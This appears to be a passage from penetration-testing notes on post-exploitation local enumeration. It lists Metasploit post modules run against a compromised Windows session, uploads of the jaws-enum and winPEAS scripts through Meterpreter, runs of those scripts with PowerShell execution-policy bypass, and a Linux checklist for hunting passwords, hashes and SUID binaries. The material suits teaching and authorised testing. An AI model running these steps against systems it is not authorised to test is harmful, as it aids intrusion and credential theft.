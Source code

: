 ```bash
msf6 > use post/windows/gather/win_privs
msf6 post(windows/gather/win_privs) > set SESSION [SESSION_ID]
msf6 post(windows/gather/win_privs) > run
msf6 post(windows/gather/win_privs) > use post/windows/gather/enum_logged_on_users
msf6 post(windows/gather/enum_logged_on_users) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_logged_on_users) > run
msf6 post(windows/gather/enum_logged_on_users) > use post/windows/gather/checkvm
msf6 post(windows/gather/checkvm) > set SESSION [SESSION_ID]
msf6 post(windows/gather/checkvm) > run
msf6 post(windows/gather/checkvm) > use post/windows/gather/enum_applications
msf6 post(windows/gather/enum_applications) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_applications) > run
msf6 post(windows/gather/enum_applications) > use post/windows/gather/enum_computers
msf6 post(windows/gather/enum_computers) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_computers) > run
msf6 post(windows/gather/enum_computers) > use post/windows/gather/enum_patches
msf6 post(windows/gather/enum_patches) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_patches) > run
msf6 post(windows/gather/enum_patches) > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set SESSION [SESSION_ID]
meterpreter > cd C:\\
meterpreter > mkdir Temp
meterpreter > cd Temp\\
meterpreter > upload jaws-enum.ps1
meterpreter > upload winpeas.ps1
meterpreter > shell
C:\> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws-enum.txt
C:\> powershell.exe -ExecutionPolicy Bypass -File .\winpeas.ps1 -OutputFilename winpeas.txt
```


<a id=2.2></a>
## Linux Local Enumeration

In Linux, we will be searching for the following:

- Hostname.
- Distribution and distribution release.
- Kernel version and architecture.
- CPU information.
- Disk information and mounted drives.
- Installed packages and software.
- Network information.
- Passwords, hashes and user accounts.
- Vulnerable SUID binaries.
- Cron tasks.

<a id=2.2.1></a>
### System information

Let's start enumerating some shtuff.
